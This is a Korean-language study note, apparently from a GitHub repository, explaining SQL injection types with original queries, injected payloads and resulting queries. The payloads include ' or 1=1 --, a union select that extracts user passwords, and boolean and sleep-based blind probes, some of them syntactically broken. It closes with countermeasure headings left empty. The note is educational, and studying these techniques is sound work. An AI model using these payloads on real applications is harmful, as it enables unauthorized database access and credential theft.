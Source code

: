 # SQL Injection

> 임의의 SQL 문을 주입해 DB 가 비정상적인 동작을 야기하는 해킹공격 중 하나이다.

OWASP 이라는 곳에서 발표한 웹 취약점 Top 10 이 있다.

SQL Injection 이 첫 번째로 있을정도로, 공격이 쉬운 편이고 큰 피해를 입힐 수 있는 공격이다.

## 1. SQL Injection 종류

### 1-1. Error based SQL Injection

1. 기존 쿼리문

    ```sql
    select * from users where id = 'input1' and password = 'input2'
    ```

2. 주입

    ```sql
    ' or 1=1 --
    ```

3. 결과
    ```sql
    select * from users where id = '' or 1=1
    -- and password = 'input2'
    ```

### 1-2. Union based SQL Injection

1. 기존 쿼리문

    ```sql
    select * from board where title like '%input%' or contents '%input%'
    ```

2. 주입

    ```sql
    ' union select null, id, password from users --
    ```

3. 결과

    ```sql
    select * from board where title like '' union select null, id, password from users --
    ```

### 1-3. Blind SQL Injection - Boolean

1. 기존 쿼리문

    ```sql
    select * from users where id = 'input1' and password = 'input2'
    ```

2. 주입

    ```sql
    abc123' and ascii(substr(select from information_schema.tables where table_type='base table' limit 0,1)0,1) > 100 --
    ```

3. 결과

    ```sql
    select * from users where id = 'abc123' and ascii(substr(select from information_schema.tables where table_type='base table' limit 0,1)0,1) > 100 --
    ```

### 1-4. Blind SQL Injection - Time

1. 기존 쿼리문

    ```sql
    select * from users where id = 'input1' and password = 'input2'
    ```

2. 주입

    ```sql
    abc123' or (length(database()) = 1 and sleep(2)) --
    ```

3. 결과

    ```sql
    select * from users where id = 'abc123' or (length(database()) = 1 and sleep(2)) --
    ```

### 1-5. Stored Procedure SQL Injection

Stored Procedure 는 쿼리문들을 모아 하나의 함수처럼 사용하기 위한 것이다.

단, 공격자가 시스템 권한을 획득해야 하므로 난이도는 높으나 성공한다면 서버에 직접적인 피해를 입힐 수 있다.

### 1-6. Mass SQL Injection

기존 SQL Injection 과 달리 한번의 공격으로 다량의 데이터베이스가 조작되어 큰 피해를 입히는 것을 의미한다.

## 2. 대응 방법

### 2-1. 입력 값에 대한 검증

### 2-2. Prepared Statement

### 2-3. Error Message 노출 금지

### 2-4. 웹 방화벽 사용

